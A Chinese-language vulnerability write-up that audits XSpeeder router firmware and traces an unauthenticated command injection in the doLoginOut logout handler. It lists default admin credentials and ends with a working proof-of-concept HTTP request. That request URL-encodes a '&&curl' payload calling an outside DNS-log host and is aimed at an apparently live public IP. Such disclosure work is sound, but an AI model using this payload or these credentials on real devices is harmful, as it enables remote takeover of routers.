 ```yaml
---
created: 2024-10-01T07:46:00+00:00
categories:
  - 技术研究
tags:
  - 代码审计
  - RCE
updated: 2023-03-26T00:00:00+00:00
date: 2022-10-11T00:00:00+00:00
slug: xspeeder-dologinout-rce
title: 同迅神行者路由doLoginOut未授权RCE
cover: /img/post/xspeeder-dologinout-rce/5.png
id: 112906e1-7468-804d-ae2e-fc3ac4019fbc
---
```


> **引子**
>
> 某次HW期间看到该漏洞的利用，遂尝试分析一番。

## 漏洞简介

同迅神行者路由通过系统管理、网络管理、策略管理、监控统计、面板管理五大人机互动管理功能，对流经的所有应用数据进行实时监控与管理。神行者路由流控产品存在未授权命令注入漏洞，攻击者可以利用该漏洞对服务器执行任意命令。

## 固件下载分析

找到厂商官网，下载中心可以直接获取到路由固件包。

![](/img/post/xspeeder-dologinout-rce/2.png)

这里直接对 ISO 相关文件进行解压，发现 Web 目录结构如下，若要尝试搭建可以见官方文档，此外，路由默认账号密码是 admin:sxzros。

![](/img/post/xspeeder-dologinout-rce/4.png)

## Python 代码审计

首先直接查看路由的分配，如下。

```python
# @Filename: urls.py
urlpatterns = [
	url(r'^favicon.ico$',RedirectView.as_view(url=r'static/assets/img/favicon.ico')),
   	#登录
	url(r'^$','xapp.vLogin.index'),
	url(r'^doLogin/$','xapp.vLogin.doLogin'),#登录验证
	url(r'^webInfos/$','xapp.vLogin.webInfos'),#WEB登录信息认证
	url(r'^weixinInfos/$','xapp.vLogin.weixinInfos'),#微信登录验证
	url(r'^index/$','xapp.vLogin.index'),#注销后的返回页面
	url(r'^default/$','xapp.views.default'),#缺省
	url(r'^warning/$','xapp.views.warning'),#到期提醒	
	url(r'^edtPwd/$','xapp.views.edtPwd'),#密码修改
	url(r'^doLoginOut/$','xapp.views.doLoginOut'),#退出登录
	url(r'^doSyncConfigToSlave/$','xapp.views.doSyncConfigToSlave'),#主备配置同步
	url(r'^iosweixinLogin/$','xapp.views.iosweixinLogin'),#登录		
	#首页
	url(r'^index/index/$','xapp.vIndex.index'),
```

对各个路由对应的方法进行排查，最终发现，在如下代码片段中，`edtPwd`和`doSyncConfigToSlave`方法都需要 token 来鉴权，但`doLoginOut`方法是没有判断 token 的，且这个方法存在`os.system`方法执行系统命令的操作。

进一步分析`doLoginOut`方法，可以判断出这个方法是登出操作，在登录成功时，是会在系统某处写一个 token 文件，而退出就是删除这个 token 文件。

```python
# @Filename: views.py
#修改密码
def edtPwd(request):
	map   = request.GET
	if not 'token' in map  or len(map['token']) != 16:
		return HttpResponseRedirect('/index/')
	spath     = r'/tmpfile/loginfile/'+str(map['token'])
	logindic  = cUtil.getLoginToken(spath)
	……
	return list
#退出
def doLoginOut(request):
	map     = request.GET
	spath   = r'/tmpfile/loginfile/'+str(map['token'])
	delfile = "rm -rf %s"%(spath)
	os.system(delfile)
	return HttpResponse(0)
#主备配置同步
def doSyncConfigToSlave(request):
	map = request.GET
	if not 'token' in map  or len(map['token']) != 16:
		return HttpResponseRedirect('/index/')
	spath     = r'/tmpfile/loginfile/'+str(map['token'])
	……
	return JsonResponse(list,safe=False)
```

## 概念验证步骤

根据如上逻辑，构造一个 POC，如下所示，成功 RCE。

```http
GET /doLoginOut/?token=%31%31%31%26%26%63%75%72%6c%20%31%62%35%65%39%34%35%38%2e%64%6e%73%2e%31%34%33%33%2e%65%75%2e%6f%72%67 HTTP/1.1
Host: 112.93.240.78:4433
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5220.146 Safari/537.36 OPR/83.0.4416.120
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 09 Oct 2022 10:53:55 GMT
Content-Type: text/html; charset=utf-8
Connection: close
X-Frame-Options: SAMEORIGIN
Content-Length: 1

0
```

![](/img/post/xspeeder-dologinout-rce/5.png)
